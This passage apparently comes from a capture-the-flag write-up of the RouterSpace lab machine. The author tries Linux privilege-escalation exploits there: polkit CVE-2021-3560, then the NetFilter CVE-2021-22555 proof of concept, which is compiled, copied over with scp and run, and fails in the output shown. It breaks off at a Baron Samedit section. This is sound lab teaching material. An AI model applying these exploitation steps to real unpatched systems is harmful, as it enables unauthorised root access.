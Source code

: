 
That POC works by adding a new user in the `sudo` group, and it's
failing because it uses the `Accountsservice` and `Gnome-Control-Center`
to do that. Because that is core to [how the exploit
functions](https://www.hackingarticles.in/linux-privilege-escalation-polkit-cve-2021-3560/)
, there's not much I can do here.

#### NetFilter

The vulnerability in NetFilter, CVE-2021-22555, says it requires the
`ip_tables` kernel module to be loaded. That is actually present here:



    paul@routerspace:/dev/shm$ lsmod | grep ip_tables
    ip_tables              32768  9 iptable_filter
    x_tables               40960  11 ip6table_filter,xt_conntrack,iptable_filter,xt_LOG,xt_tcpudp,xt_addrtype,ip6_tables,ipt_REJECT,ip_tables,xt_limit,xt_NFQUEUE



I'll download the POC from the link in the LinPeas output, and compile
it and `scp` it to RouterSpace:



    oxdf@hacky$ gcc -m32 -static -o cve-2021-22555 cve-2021-22555.c oxdf@hacky$ scp -i ~/keys/ed25519_gen cve-2021-22555 paul@routerspace.htb:/dev/shm/
    cve-2021-22555                  100%  706KB 879.9KB/s   00:00



I'll run it a couple times, but it fails the same way each time:



    paul@routerspace:/dev/shm$ ./cve-2021-22555
    [+] Linux Privilege Escalation by theflow@ - 2021

    [+] STAGE 0: Initialization
    [*] Setting up namespace sandbox...
    [*] Initializing sockets and message queues...

    [+] STAGE 1: Memory corruption
    [*] Spraying primary messages...
    [*] Spraying secondary messages...
    [*] Creating holes in primary messages...
    [*] Triggering out-of-bounds write...
    [*] Searching for corrupted primary message...
    [-] Error could not corrupt any primary message.



### Baron Samedit

#### Background

It's not really clear to me what the difference is between "sudo Baron
Samedit" and "sudo Baron Samedit 2" (they both have the same details
link, though there are two different POCs - it could just be two
different POCs):
